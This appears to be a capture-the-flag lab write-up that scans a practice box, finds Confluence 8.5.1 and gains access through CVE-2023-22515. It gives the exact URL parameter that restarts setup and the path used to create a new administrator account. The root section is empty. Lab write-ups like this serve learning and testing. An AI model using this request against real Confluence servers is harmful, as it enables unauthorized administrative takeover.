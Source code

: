 # User
* scanned the box: `nmap -sC -sV 10.129.231.16`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 14:39 EDT
Stats: 0:01:02 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:40 (0:00:31 remaining)
Nmap scan report for 10.129.231.16
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 df:ad:60:d1:65:21:ad:be:c8:75:d8:8c:ec:34:57:72 (RSA)
|   256 8e:b2:88:13:74:d4:66:30:79:38:b7:ea:a7:f8:35:51 (ECDSA)
|_  256 bf:fe:cb:4f:fb:34:fa:5f:d6:8a:b6:43:ba:0e:33:a6 (ED25519)
8090/tcp open  opsmessaging?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.49 seconds
```
* browsing to port 8090 results in a login page for confluence
![](Influence-paste.png)
* no default creds exist and `administrator:password` did not work
* looked up the version (8.5.1)
	* https://confluence.atlassian.com/security/cve-2023-22522-rce-vulnerability-in-confluence-data-center-and-confluence-server-1319570362.html
		* Dead end!
	* https://confluence.atlassian.com/security/cve-2023-22515-broken-access-control-vulnerability-in-confluence-data-center-and-server-1295682276.html
		* https://www.vicarius.io/vsociety/posts/understanding-the-confluence-vulnerability-cve-2023-22515
* by appending `server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false` to the url I was able to reinitiate the setup process
![](Influence-paste-1.png)
* I was then able to navigate to this `setup/setupadministrator-start.action` and create an account
![](Influence-paste-2.png)
![](Influence-paste-3.png)
# Root